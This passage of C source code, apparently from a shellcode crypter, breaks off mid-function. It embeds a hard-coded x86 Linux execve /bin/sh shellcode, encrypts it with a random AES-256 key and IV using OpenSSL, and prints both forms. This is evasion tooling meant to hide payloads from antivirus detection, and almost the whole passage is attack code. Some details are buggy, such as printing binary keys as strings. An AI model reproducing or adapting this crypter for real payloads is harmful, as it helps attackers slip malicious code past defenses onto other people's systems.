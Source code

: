 ```code
  unsigned char key[32]; //256 bit key
  unsigned char iv[16]; //128 bitinitialization vector

  int key_len, iv_len;
  key_len = 32;
  iv_len = 16;

  random_string(key, key_len); //generate random AES 256 bit key
  random_string(iv, iv_len); //generate random AES 128 bit initialization vector

  printf("[+] AES 128 bit IV: %s\n", (iv));
  printf("[+] AES 256 bit Key: %s\n", (key));

  //plaintext shellcode
  unsigned char shellcode[] = "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";

  unsigned char encrypted[128]; //buffer for encrypted shellcode
  int shellcode_len, encrypted_len; //length of shellcode

  shellcode_len = strlen(shellcode);

  //initialize the library
  ERR_load_crypto_strings();
  OpenSSL_add_all_algorithms();
  OPENSSL_config(NULL);

  //encrypt the shellcode
  encrypted_len = encrypt(shellcode, shellcode_len, key, iv, encrypted);

  //null terminate the shellcode for printing
  shellcode[shellcode_len] = '\0';
  encrypted[encrypted_len] = '\0';

  //print shellcode in both forms
  printf("[+] Original Shellcode (%d bytes):\n", (shellcode_len));
  print_shellcode(shellcode);

  printf("[+] Encrypted Shellcode (%d bytes):\n", (encrypted_len));
  print_shellcode(encrypted);

  //clean up
  EVP_cleanup();
  ERR_free_strings();

  return 0;
}

//error handler
void handleErrors(void)
{
  ERR_print_errors_fp(stderr);
  abort();
}

//encryption function for AES 256 with a 128 bit initialization vector
int encrypt(unsigned char *shellcode, int shellcode_len, unsigned char *key, unsigned char *iv, unsigned char *encrypted)
{
  EVP_CIPHER_CTX *ciphertext; //openssl EVP ciphertext structure

  int len, encrypted_len;

```